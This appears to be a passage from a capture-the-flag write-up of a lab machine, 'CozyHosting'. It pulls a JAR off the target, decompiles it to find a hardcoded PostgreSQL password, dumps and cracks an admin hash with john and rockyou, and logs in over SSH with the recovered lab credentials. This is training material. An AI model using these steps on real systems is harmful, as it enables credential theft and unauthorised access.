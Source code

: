 Let's fetch the file to our device, to extract and see what’s inside. Fetching files, will be done using creating a server using Python and then downloading using wget into our system.

```bash
python3 -m http.server 1111
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709544958962/9bb38a77-b8fa-47e7-afa1-d2ed115b7f5a.png align="center")

```bash
wget http://10.10.11.230:1111/cloudhosting-0.0.1.jar
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709544969374/913de24f-f3c1-4e13-97a0-1c1180027a62.png align="center")

Let's open this with jd-gui.

```bash
jd-gui cloudhosting-0.0.1.jar
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709545090057/483ce079-cfe8-45a0-9bae-1b3044571e40.png align="center")

We got the PostgreSQL database’s username & password. *postgres*: *Vg&nvzAQ7XxR* Now let's login through Postgre SQL with this creds

```bash
psql -h 127.0.0.1 -U postgres
```

So, after getting connected, we listed the databases available and found cozyhosting.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709545019097/f3de3dfa-8b3a-4c4c-898f-0477b87c642a.png align="center")

> *\\c is used to connect to specific database in our case, its Cozyhosting\\d is used to see all the tables in the database*
> 
> ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709546053557/34d61551-b8e6-4a9c-a441-f523e354d9ed.png align="center")

\\d is used to see all the tables in the database.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709546125359/bb75559c-f564-4593-8daf-18111b3b131e.png align="center")

so here we have the admin hash let's crack it

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709546172221/70b559ba-c696-4cb3-963a-41e6eab4ab1e.png align="center")

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1709546187730/abb89d4e-40be-4c64-9619-e2f535e01ca5.png align="center")

We got the username while searching in the shell *josh*:*manchesterunited* As we saw in the nmap scan we have SSH open so let's connect through that.

```bash
ssh josh@10.10.11.230
```
